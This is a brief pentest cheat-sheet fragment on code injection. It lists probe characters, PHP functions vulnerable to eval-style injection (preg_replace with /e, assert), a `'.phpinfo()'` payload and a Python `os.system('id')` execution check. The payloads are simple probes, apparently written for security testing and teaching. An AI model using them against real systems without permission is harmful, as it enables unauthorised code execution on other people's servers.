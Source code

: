 
### Testing 


- >> `'`

- >> `;`

 ->> `'.'`
 

### Vulnerable Functions:

PCRE_REPLACE_EVAL | PHP prior to 5.5.0

Assert Function 


### Exploiting the vulnerability :

- >> `'.phpinfo()'` | test it  


### Python Code Execution:


>> `os.system('id')` |  if 0 is returned means that the code has executed successfully 


>> 
